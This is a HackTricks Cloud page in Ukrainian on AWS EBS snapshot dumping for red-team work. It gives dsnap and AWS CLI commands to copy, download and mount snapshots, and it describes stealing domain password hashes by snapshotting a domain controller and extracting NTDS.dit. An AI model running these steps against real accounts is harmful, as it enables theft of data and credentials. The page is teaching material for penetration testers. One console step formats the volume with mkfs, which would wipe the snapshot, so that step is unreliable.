 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Перевірка знімка локально
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Зверніть увагу**, що `dsnap` не дозволить вам завантажити публічні знімки. Щоб обійти це, ви можете зробити копію знімка у своєму особистому акаунті та завантажити його:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Для отримання додаткової інформації про цю техніку перегляньте оригінальне дослідження за посиланням [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Ви можете зробити це з Pacu, використовуючи модуль [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Перевірка знімка в AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Підключіть його до EC2 VM під вашим контролем** (він має бути в тому ж регіоні, що й копія резервної копії):

Крок 1: Необхідно створити новий об'єм вашого вибраного розміру та типу, перейшовши до EC2 –> Об'єми.

Щоб виконати цю дію, виконайте такі команди:

* Створіть об'єм EBS для підключення до EC2 екземпляра.
* Переконайтеся, що об'єм EBS та екземпляр знаходяться в одній зоні.

Крок 2: Виберіть опцію "підключити об'єм", клацнувши правою кнопкою миші на створеному об'ємі.

Крок 3: Виберіть екземпляр з текстового поля екземпляра.

Щоб виконати цю дію, використовуйте наступну команду:

* Підключіть об'єм EBS.

Крок 4: Увійдіть до екземпляра EC2 та перелікуйте доступні диски, використовуючи команду `lsblk`.

Крок 5: Перевірте, чи є дані на об'ємі, використовуючи команду `sudo file -s /dev/xvdf`.

Якщо вивід вище наведеної команди показує "/dev/xvdf: data", це означає, що об'єм порожній.

Крок 6: Форматуйте об'єм у файлову систему ext4, використовуючи команду `sudo mkfs -t ext4 /dev/xvdf`. Альтернативно, ви також можете використовувати формат xfs, використовуючи команду `sudo mkfs -t xfs /dev/xvdf`. Зверніть увагу, що ви повинні використовувати або ext4, або xfs.

Крок 7: Створіть каталог на ваш вибір для підключення нового об'єму ext4. Наприклад, ви можете використовувати назву "newvolume".

Щоб виконати цю дію, використовуйте команду `sudo mkdir /newvolume`.

Крок 8: Підключіть об'єм до каталогу "newvolume", використовуючи команду `sudo mount /dev/xvdf /newvolume/`.

Крок 9: Перейдіть до каталогу "newvolume" і перевірте дисковий простір, щоб підтвердити підключення об'єму.

Щоб виконати цю дію, використовуйте такі команди:

* Перейдіть до `/newvolume`.
* Перевірте дисковий простір, використовуючи команду `df -h .`. Вивід цієї команди має показувати вільний простір у каталозі "newvolume".

Ви можете зробити це з Pacu, використовуючи модуль `ebs__explore_snapshots`.

## Перевірка знімка в AWS (використовуючи cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Будь-який користувач AWS, який має дозвіл **`EC2:CreateSnapshot`**, може вкрасти хеші всіх доменних користувачів, створивши **знімок Контролера домену**, змонтувавши його на екземплярі, яким він керує, і **експортувавши NTDS.dit та реєстровий файл SYSTEM** для використання з проектом secretsdump від Impacket.

Ви можете використовувати цей інструмент для автоматизації атаки: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) або ви можете використовувати одну з попередніх технік після створення знімка.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
